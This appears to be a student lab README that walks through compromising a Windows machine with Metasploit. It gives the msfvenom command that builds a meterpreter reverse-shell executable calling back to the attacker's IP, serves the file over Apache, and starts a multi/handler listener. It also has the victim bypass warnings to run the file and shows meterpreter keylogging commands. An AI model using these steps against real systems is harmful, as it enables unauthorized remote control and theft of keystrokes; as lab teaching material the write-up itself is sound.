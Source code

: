# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT :

### Find the attackers ip address using ifconfig

![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/01c5be4f-d110-4f45-88ba-3fa20c901454)

### Create a malicious executable file fun.exe using msenom command
 **sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe**

![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/1fc78e30-3309-499c-97f2-0a162c6277fe)

### copy the fun.exe into the apache
**/var/www/html folder**

![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/cf556404-70fb-4bd2-8a0b-96f75e64abaa)

### Start apache server 
**sudo systemctl apache2 start**

![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/8c0e6c41-d22b-4960-96d3-94b3cc8cc288)

### Check the status of apache2
![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/d00df03b-095b-41de-ba7f-1239529123e0)

### Invoke msfconsole :

![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/e3c58ef7-0586-41fa-9037-f1c654be417a)

### Type "HELP" or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/a89d09fd-9512-4fa1-b0e6-07f76badfb7f)

### Starting a command and control Server use multi/handler 
**set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit**

![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/5bbc881e-b4e0-4f64-8749-2a1d8cfb308e)

### On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: 
**http://192.168.1.2/fun.exe The file "fun.exe" downloads.**
![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/25055a5b-3b87-4c43-b5f0-48770d7a0860)

### Bypass any warning boxes, double-click the file, and allow it to run.
![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/de441e8f-f4ac-4fd5-b6a1-385cbee9f847)

### On kali give the command exploit
![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/892de660-c563-4bed-b7b7-f0a88ee15a0a)

### To see a list of processes, at the 
**meterpreter > prompt,
execute this command: ps ⇒ can see the fun.exe process running with pid 1156**
![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/7128cc7e-edcd-484f-be2e-95a5732062a8)

### Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/837496ea-358c-4f60-9215-9f866964031e)

### keyscan_dump
![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/dbb73d6c-abf1-416c-a19c-cd0d52e9c1e3)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
